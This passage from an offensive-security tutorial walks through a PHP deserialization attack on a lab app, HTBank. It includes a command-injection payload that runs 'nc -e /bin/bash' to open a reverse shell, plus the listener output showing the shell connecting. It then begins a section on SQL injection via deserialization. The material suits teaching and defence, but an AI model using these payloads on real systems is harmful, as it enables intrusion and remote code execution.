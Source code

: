 First, we should start a local Netcat listener and test the payload locally.

```shell
php target.php

TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNldHRp...SNIP...d2ZkYSI7fQ==
echo "$(date +'[%d.%m.%Y %H:%M:%S]') Imported settings for user '"; nc -nv 127.0.0.1 9999 -e /bin/bash;#'" >> /tmp/htbank.logNcat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:9999.

```

We can see that the command injection was successful, and you may notice that none of the values were printed out like the other times we ran `target.php` (until we close Netcat).

#### Running against the Target

We can restart the listener on our attacking machine and once we import the payload into the web application we should get a reverse shell:

```shell
nc -nvlp 9999

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.20.0.4.
Ncat: Connection from 172.20.0.4:43134.
ls -l
total 12
drwxr-xr-x 2 sammy sammy 4096 Oct  8 22:47 css
-rw-r--r-- 1 sammy sammy    0 Sep 20 13:19 favicon.ico
-rw-r--r-- 1 sammy sammy 1710 Sep 20 13:19 index.php
-rw-r--r-- 1 sammy sammy   24 Sep 20 13:19 robots.txt

```

* * *

## Other Attacks

In the example of `HTBank`, we used `deserialization` to control input to `shell_exec` and thus control the command that was executed. However, deserialization is not exclusive to command injection and will not always result in remote code execution, depending on which magic functions the developers have defined. As an attacker, you must be creative and may find it possible to conduct attacks such as SQLi, LFI, and DoS via deserialization.

#### SQLi via Deserialization

Here is an example of a possible SQL injection via deserialization. Imagine the classes `UserModel` and `UserProperty` are copied from the source code of some targeted website, and `POST_Check_User_Property` is a recreation of how the website handles some example POST request which results in a `UserProperty` object being deserialized.

There are a lot of magic methods defined here, but a couple should stick out. We can see in `UserModel.__get()` that the MySQL database is queried for the `$get` column (for example `$userModel->email` will result in `SELECT email FROM ...`).
